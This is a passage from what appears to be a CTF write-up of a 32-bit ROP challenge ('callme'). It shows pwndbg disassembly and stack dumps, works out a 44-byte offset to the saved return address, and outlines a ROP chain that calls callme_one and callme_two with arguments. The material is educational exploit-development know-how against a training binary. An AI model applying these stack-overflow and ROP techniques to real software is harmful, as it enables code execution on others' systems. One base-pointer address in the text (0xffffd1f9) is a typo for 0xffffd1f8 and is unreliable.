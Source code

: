 ```c
   0x8048749 <pwnme+92>            add    esp, 0x10
   0x804874c <pwnme+95>            nop
   0x804874d <pwnme+96>            leave
   0x804874e <pwnme+97>            ret

   0x804874f <usefulFunction>      push   ebp
   0x8048750 <usefulFunction+1>    mov    ebp, esp
   0x8048752 <usefulFunction+3>    sub    esp, 8
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd1c0 ◂— 0x0
01:0004│     0xffffd1c4 —▸ 0xffffd1d0 ◂— 'AAAABBBBCCCCDDDD\n'
02:0008│     0xffffd1c8 ◂— 0x200
03:000c│     0xffffd1cc ◂— 0x4
04:0010│ ecx 0xffffd1d0 ◂— 'AAAABBBBCCCCDDDD\n'
05:0014│     0xffffd1d4 ◂— 'BBBBCCCCDDDD\n'
06:0018│     0xffffd1d8 ◂— 'CCCCDDDD\n'
07:001c│     0xffffd1dc ◂— 'DDDD\n'
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0x8048739 pwnme+76
   f 1 0x80486d0 main+74
   f 2 0xf7dddee5 __libc_start_main+245
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now lets check our Base Pointer and Stack values,

```c
pwndbg> x/2wx $ebp
0xffffd1f8:	0xffffd208	0x080486d0
pwndbg> x/20wx $esp
0xffffd1c0:	0x00000000	0xffffd1d0	0x00000200	0x00000004
0xffffd1d0:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffd1e0:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd1f0:	0x08048837	0x00000000	0xffffd208	0x080486d0
0xffffd200:	0xf7fe22f0	0xffffd220	0x00000000	0xf7dddee5
```

Our base pointer is at ```0xffffd1f9``` and our buffer begins at ```0xffffd1d0```

```c
>>> print(0xffffd1f8-0xffffd1d0)
40
```

Our buffer space is ```40 bytes```

To reach Instruction Pointer we need to pass ```44 bytes``` (40+4) of junk data

Lets build the ROP chain,

```

44 bytes of junk
       +
Addr of callme_one
       +
Addr for ret function
       +
Args for function
       +
Addr of callme_two
       +
Addr for ret function
       +
Args for function
```